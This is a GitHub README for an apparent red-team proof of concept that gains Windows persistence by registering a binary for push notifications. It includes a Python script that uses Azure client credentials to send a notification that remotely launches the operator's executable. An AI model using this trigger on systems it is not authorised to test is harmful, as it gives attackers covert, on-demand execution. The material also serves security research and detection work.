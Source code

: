 # Hermes the messenger
A PoC for achieving persistence via push notifications on Windows

For more technical details and background read our blogpost here: https://www.persistent-security.net/post/beacon-on-demand-abusing-push-notifications-for-persistence



# Usage

Before anything else you need to [setup Azure](https://learn.microsoft.com/en-us/windows/apps/windows-app-sdk/notifications/push-notifications/push-quickstart#step-1-create-an-aad-app-registration). You then need to run the executable once in order to register itself for push notifications. You only need to pass the object id of your Azure app as an argument and if all goes well, it will print the channel Uri as received  by Microsoft. At that stage you may close the app.

```
hermes.exe <object_id>
```

If SDK 1.3 is not installed, the binary will attempt to deploy it along with the necessary extensions.

When you have the channel Uri, you can attempt to spawn your executable remotely from another machine by calling the notification API with your tenant's details, and watch the magic happen:

```python
import requests

secret = "4r8Q~XW6U_PmJYg6Eu_jV22DWlsnhyJBIrdpV"
app_id = "CA899E11-71CF-4DB3-962C-0EA65151C132" #not the object id but the Azure app id
tenant_id = "E83F2382-F012-475A-9A4C-30545F429FB7"
channel_uri = "https://wns2-am3p.notify.windows.com/?token=AwYAAAAiYI4p...."

def send_notification(secret, app_id, tenant_id, channel_uri, notification_data):
    # Acquire token
    url = f"https://login.microsoftonline.com/{tenant_id}/oauth2/v2.0/token"
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    data = {
        'grant_type': 'client_credentials',
        'client_id': app_id,
        'client_secret': secret,
        'scope': 'https://wns.windows.com/.default'
    }
    response = requests.post(url, headers=headers, data=data)
    response_json = response.json()
    token = response_json['access_token']

    # Send notification
    headers = {
        'Content-Type': 'application/octet-stream',
        'Authorization': f'Bearer {token}',
        'X-WNS-Type': 'wns/raw',
    }
    response = requests.post(channel_uri, headers=headers, data=notification_data)
    return response.status_code, response.text
	
	
send_notification(secret, app_id, tenant_id, channel_uri, "This is a notification")
```

# Demo



https://github.com/persistent-security/hermes-the-messenger/assets/134269747/1de3afdc-79dc-4de6-827b-6acba44f910b


